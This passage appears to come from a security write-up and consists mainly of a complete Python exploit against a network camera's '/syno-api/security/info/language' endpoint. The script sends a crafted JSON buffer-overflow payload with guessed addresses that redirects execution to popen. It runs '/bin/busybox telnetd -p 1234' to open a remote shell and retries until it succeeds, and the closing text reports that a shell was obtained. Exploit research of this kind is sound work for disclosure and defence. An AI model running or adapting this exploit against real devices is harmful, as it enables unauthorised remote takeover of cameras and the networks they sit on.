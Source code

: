 Here is the final exploit:

```py
#!/usr/bin/env python3

import requests
from pwn import *
import sys

CAMERA_URL = ""

    

def main():
    global CAMERA_URL

    if len(sys.argv) == 1:
        CAMERA_URL = 'http://127.0.0.1:8080'
    else:
        CAMERA_URL = sys.argv[2]

    log.info(f"Starting exploit on {CAMERA_URL}")

    base_address = 0x400000 #we will guess that its 0x400000. it will be correct 1/16 of the times
    heap_offset = 0xb9000
    
    cmd_ptr = base_address + heap_offset + 0x5698 + 0x4090
    popen_call = base_address + 0x14D60

    payload = b'{"' + b"A" * (0x84 + 0x20 + 4) + p32(cmd_ptr)[:-1] +  b" " + b"B" * (0x84) + p32(popen_call)[:-1] + b'": "BBBB"}'
    payload += b'\x00' + b'/' * 0x5290 + b'/bin/busybox telnetd -p 1234\x00'

    for i in range(0x100):
        try:
            print(f'Tried {i} times')
            r = requests.post(f"{CAMERA_URL}/syno-api/security/info/language", headers={'Content-Type':'application/json'}, data=payload, timeout=1)
        except Exception as e:
            print(e)
            pass



if __name__ == "__main__":
    main()

```

We executed the `telnetd` binary, to open a reverse shell on port 1234.
Running this reveals that we indeed got a shell!
